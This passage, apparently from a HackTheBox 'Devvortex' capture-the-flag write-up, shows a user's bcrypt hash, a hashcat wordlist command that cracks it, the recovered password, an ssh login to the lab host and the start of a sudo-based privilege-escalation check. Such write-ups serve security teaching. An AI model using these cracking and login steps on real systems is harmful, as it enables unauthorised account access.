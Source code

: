 This output had two hashes included. The hash for lewis we don't really need to try to crack since we already know his password. Add the hash of logan to a file.
```
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```

Then run hashcat with the following parameters to crack this hash

```bash
hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

![Hash cracked](/assets/img/Devvortex/Devvortex_07.png)

So now that we know Logan's password is **tequieromucho**we can log in with it using ssh 

```
ssh logan@devvortex.htb
```

## Privilege escalation

When looking at what processes the user can run as sudo i noticed Logan was able to run **/usr/bin/apport-cli** with sudo.

```bash
sudo -l 
```
![Sudo -l](/assets/img/Devvortex/Devvortex_08.png)
